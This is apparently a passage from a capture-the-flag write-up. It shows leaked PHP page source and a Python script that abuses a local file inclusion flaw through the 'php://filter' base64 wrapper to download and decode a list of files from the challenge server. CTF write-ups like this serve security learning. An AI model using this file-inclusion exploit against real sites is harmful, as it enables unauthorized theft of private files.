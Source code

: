 ```php

  <script src="vendor/jquery/jquery-3.2.1.min.js"></script>
  <script src="vendor/animsition/js/animsition.min.js"></script>
  <script src="vendor/bootstrap/js/popper.js"></script>
  <script src="vendor/bootstrap/js/bootstrap.min.js"></script>
  <script src="vendor/select2/select2.min.js"></script>
  <script src="vendor/daterangepicker/moment.min.js"></script>
  <script src="vendor/daterangepicker/daterangepicker.js"></script>
  <script src="vendor/countdowntime/countdowntime.js"></script>
  <script src="js/main.js"></script>

</body>
</html>
<?php
    }
    else
    {
        include('error.php');
    }
?>
```

### File extraction

Ok, now I think I'm seeing files stored in the drive, I made a little script to extract them:

```python
#!/usr/bin/python2

import requests
import base64

file_list = ['21f64da1e5792c8295b964d159a14491/rib-bnp.gif', '21f64da1e5792c8295b964d159a14491/test.html', 'images/vacances1.jpg', '21f64da1e5792c8295b964d159a14491/CONFIDENTIEL.zip', '21f64da1e5792c8295b964d159a14491/facture_mobile_sfr.png', '21f64da1e5792c8295b964d159a14491/camel.jpg', '21f64da1e5792c8295b964d159a14491/cat.jpg', '21f64da1e5792c8295b964d159a14491/funny_wtf.jpg', '21f64da1e5792c8295b964d159a14491/freshandhappy.mp3', '21f64da1e5792c8295b964d159a14491/intense.mp3', '21f64da1e5792c8295b964d159a14491/recup.zip', '21f64da1e5792c8295b964d159a14491/funny.jpg', '21f64da1e5792c8295b964d159a14491/goats.jpg', '21f64da1e5792c8295b964d159a14491/lol.jpg', '21f64da1e5792c8295b964d159a14491/rapport_SM.pdf', '21f64da1e5792c8295b964d159a14491/these.pdf', '21f64da1e5792c8295b964d159a14491/these-2.pdf', '21f64da1e5792c8295b964d159a14491/wallpaper.jpg', '21f64da1e5792c8295b964d159a14491/VeraCrypt.zip','21f64da1e5792c8295b964d159a14491/media','21f64da1e5792c8295b964d159a14491/documents']

for i in file_list:
  r = requests.get("https://archdrive.santhacklaus.xyz/index.php?page=pHp://FilTer/convert.base64-encode/resource="+str(i))
  data = base64.b64decode(r.text.split('\r\n')[-1].replace(' ',''))

  filename = i.replace('/','_')
  print("[+] Result written in: {0}".format(filename))
  f = open(filename, 'wb')
  f.write(data)
  f.close()
```
